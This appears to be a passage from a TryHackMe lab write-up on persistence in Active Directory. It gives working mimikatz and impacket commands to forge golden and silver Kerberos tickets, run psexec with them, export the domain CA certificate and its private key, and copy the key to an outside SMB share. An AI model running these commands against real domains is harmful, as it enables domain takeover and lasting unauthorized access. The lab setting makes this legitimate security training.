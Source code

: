 - Now we can create a golden ticket using `mimikatz`
```bash
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```

- Using kali we can do
```bash
ticketer.py -nthash 16f9af38fca3ada405386b3b57366082 -domain-sid S-1-5-21-3885271727-2693558621-2658995185 -domain za.tryhackme.loc ReallyNotALegitAccount
```

- To use the ticket on kali
```bash
echo "export KRB5CCNAME=/home/crypt0ace/Desktop/Write-Ups/THM/AD/PersistingAD/ReallyNotALegitAccount.ccache" >> ~/.bashrc
. ~/.bashrc
tail ~/.bashrc
```

- To use it with `psexec.py`
```bash
export KRB5CCNAME=/home/crypt0ace/Desktop/Write-Ups/THM/AD/PersistingAD/ReallyNotALegitAccount.ccache; psexec.py -dc-ip 10.200.61.101 -target-ip 10.200.61.101 -no-pass -k za.tryhackme.loc/ReallyNotALegitAccount@za.tryhackme.loc
```

- To generate a silver ticket we can use
```bash
kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
---------------------------------------------------------------------------------
- We can add persistence through certificates but it it highly invasive and will need a full domain rebuild so its not recommended
- Loaded `mimikatz`
- We can look at the certificates on the local machine
```bash
crypto::certificates /systemstore:local_machine
```

- Found one with exportable key
- We can patch it and make other exportable too
```bash
privilege::debug
crypto::capi
crypto::cng
```

- We can export it using
```bash
crypto::certificates /systemstore:local_machine /export
```

- We are interested in `local_machine_My_1_za-THMDC-CA.pfx`
- Copied it to my SMB server
```bash
$pass = convertto-securestring "password" -AsPlainText -Force # To convert it to useable password
$cred = New-Object System.Management.Automation.PSCredential('ace', $pass) # Setting up cred object with username and password
New-PSDrive -Name "ace" -PSProvider FileSystem -Credential $cred -Root \\10.50.58.85\share # Connecting the drive to windows
cd ace:
```
